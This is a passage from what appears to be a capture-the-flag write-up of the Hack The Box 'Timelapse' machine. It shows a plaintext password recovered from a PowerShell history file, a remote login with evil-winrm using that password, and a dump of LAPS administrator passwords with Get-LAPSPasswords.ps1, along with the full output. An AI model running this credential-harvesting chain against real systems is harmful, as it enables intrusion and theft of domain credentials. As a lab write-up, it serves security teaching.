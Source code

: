 
#### winpeas enumeration
<img src="{{ site.url }}{{ site.baseurl }}/assets/images/timelapse01.png" alt="winpeas result">

`winpeas` found the powershell history. Let's look into it.

```bash
*Evil-WinRM* PS C:\Users\legacyy\Documents> type C:\Users\legacyy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
We can see the clear text password for the account `svc_deploy`. Let's connect to it using `evil-winrm`.

```bash
evil-winrm -i 10.10.11.152 -S -u svc_deploy -p 'E3R$Q62^12p7PLlC%KWaxuaV'

Evil-WinRM shell v3.3

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> whoami
timelapse\svc_deploy
```
Now we have shell as `svc_deploy`. We will use [Get-LAPSPasswords.ps1](https://github.com/kfosaaen/Get-LAPSPasswords/blob/master/Get-LAPSPasswords.ps1) to dump the `laps` password. Get the script into the box and run it.

```bash
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Import-Module .\Get-LAPSPasswords.ps1
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> Get-LAPSPasswords


Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : z1.6.gh2MO947b}362/StY.6
Expiration : 8/8/2022 5:39:07 AM

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : z1.6.gh2MO947b}362/StY.6
Expiration : 8/8/2022 5:39:07 AM

Hostname   :
Stored     : 0
Readable   : 0
Password   :
Expiration : NA

Hostname   : dc01.timelapse.htb
Stored     : 1
Readable   : 1
Password   : z1.6.gh2MO947b}362/StY.6
```